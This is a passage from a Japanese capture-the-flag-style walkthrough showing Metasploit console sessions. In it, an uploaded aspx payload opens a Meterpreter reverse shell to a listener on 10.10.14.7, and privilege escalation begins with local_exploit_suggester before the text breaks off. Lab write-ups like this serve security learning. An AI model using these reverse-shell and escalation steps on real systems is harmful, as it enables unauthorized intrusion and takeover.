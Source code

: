 ```

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.7       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444
```

最後の先ほどアップロードしたaspxファイルを実行します。

![スクリーンショット 2020-06-05 15.35.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/8c8a82b5-bb3e-30ff-1447-74d74288dba1.png)

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.5:49159) at 2020-06-05 02:34:49 -0400

meterpreter > getuid
Server username: IIS APPPOOL\Web
```

すると、待ち受けてたハンドラにリバースシェル接続が来て、シェルを取ることができます。
しかし現在のままでは管理者権限ではないので、さらに権限昇格を狙う必要があります。

# 特権エスカレーション
meterpreterで接続しているので、このままlocal_exploit_suggesterモジュールを用いて権限の昇格を狙いたいと思います。

```
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > show option
[-] Invalid parameter "option", use "show -h" for more information
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
```